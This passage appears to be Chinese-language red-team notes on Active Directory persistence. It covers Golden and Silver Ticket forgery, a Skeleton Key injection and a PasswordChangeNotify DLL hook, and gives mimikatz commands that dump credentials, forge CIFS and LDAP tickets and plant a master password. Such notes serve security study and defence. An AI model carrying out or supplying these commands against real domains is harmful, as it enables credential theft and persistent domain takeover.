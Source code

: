 Golden Ticket使用krbtgt账号的密码散列值，利用伪造高权限的TGT像KDC要求颁发拥有任意服务访问权限的票据，从而获取域控制器权限。而silver Ticket 会通过相应的服务账号来伪造TGS，范围有限，只能获取对应服务的权限。Golen Ticket是由krbtgt账号加密的，Sliver Ticket是由特定的服务账号加密的

**需要掌握的信息：**

- 域名
- 域SID
- 目标可用的FQDN
- 可用的服务
- 服务账号的NTLM Hash
- 需要伪造的用户名

### 伪造CIFS服务权限

```sh
privilege::debug
sekurlsa::logonpasswords
klist purge
Kerberos::golden /domain: /sid: /target: /service: /rc4: /user:dm /ptt
```

### 伪造LDAP服务权限

```sh
# 测试当前权限是否可以使用dcsync与域控制器同步
privilege::debug
sekurlsa::logonpasswords
klist purge
Kerberos::golden /domain: /sid: /target: /service: /rc4: /user:dm /ptt
```

## SKeleton Key（万能密码）

```sh
privilege::debug
misc::skeleton # 注入Skeleton Key
# 此时会在域内的所有账号中田间一个Skeleton Key，其密码为mimikatz
```

## Hook PasswordChangeNotify

`Hook PasswordChangeNotify`的作用是当用户修改密码后在系统中同步进行。攻击者可以利用该功能获取用户修改密码时输入密码明文

在修改密码时，用户输入新密码后，LSA会调用PasswordFileter来检查改密码是否符合复杂性要求。如果密码符合复杂性要求，LSA会调用PasswordChangeNotify，在系统中同步密码

**利用方法：**

- 使用恶意的`HookPasswordChange.dll`进行劫持











